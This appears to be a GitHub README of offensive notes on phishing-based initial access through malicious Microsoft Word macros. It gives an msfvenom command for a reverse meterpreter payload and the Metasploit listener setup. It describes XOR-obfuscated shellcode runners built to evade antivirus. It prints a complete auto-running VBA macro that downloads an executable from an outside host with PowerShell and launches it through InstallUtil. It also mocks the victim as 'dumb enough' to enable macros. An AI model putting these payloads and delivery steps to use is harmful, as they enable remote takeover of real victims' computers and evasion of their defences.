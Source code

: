 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. **Generally x86 for Office 2016 and x64 for Office 2021/365**

**Important thing to note that if you gain a shell via doc phishing, you are likely operating in a x86 process. If you need to bypass UAC through fodhelper, you need to find a way to upgrade to a 64-bit process (via migration or popping another shell)**

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and send it to the victim who hopefully will be dumb enough to open and enable macro and stare at the document in disbelief while your shellcode runs.

Remember to change whatever that is in the buf variable to the shellcode generated by msfvenom!

![Simple VBA Shellcode Runner here](SimpleDirectVBARunner.vba)

# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode
- Need to XOR your shellcode with the ![XOR_Helper](..\XOR_Encoder_Helper\xor_encoder.cs) courtesy of https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs



# Round 3 - Powershell in Custom Runspace, pulled and then executed by InstallUtil
- Custom.exe is the CustomPowershellRunspace
- Do note the diff between 32bit and 64-bit powershell
- Inside Custom.exe, we should be calling the 64-bit shellcode because powershell is likely executing in 64-bit context due ot the fact that installutil is in 64-bit

![alt text](image.png)

```vba
Sub MyMacro()
    Dim s As String
    Dim s1 As String
    s = "powershell.exe iwr -uri http://192.168.45.169/custom.exe -outfile C:\\Windows\\tasks\\custom.exe"
    s1 = "C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\Windows\\tasks\\custom.exe"
    Set oShell = CreateObject("WScript.Shell")
    oShell.Run s, 0, True  ' Waits until download finishes
    oShell.Run s1, 0, False
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
